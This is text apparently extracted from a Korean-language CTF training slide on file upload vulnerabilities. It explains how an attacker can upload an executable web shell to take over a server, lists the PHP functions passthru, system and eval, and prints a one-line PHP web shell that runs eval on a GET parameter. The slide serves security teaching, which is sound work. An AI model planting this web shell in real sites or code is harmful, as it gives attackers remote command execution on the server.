

Attack & Defense CTF
File Upload
File Upload
파일 업로드 할 때 실행가능한 파일을 올려 임의의 코드 실행
웹쉘이라고 불리는 해킹 프로그램을 업로드하여 웹 사이트의 서버를 장악 가능
* WebShell: 공격자가 원격에서 대상 서버에 명령을 실행 할 수 있도록 작성된 웹스크립트
PHP Webshell
passthru()
system()
eval()
EX) <?php eval($_GET[‘cmd’]) ?>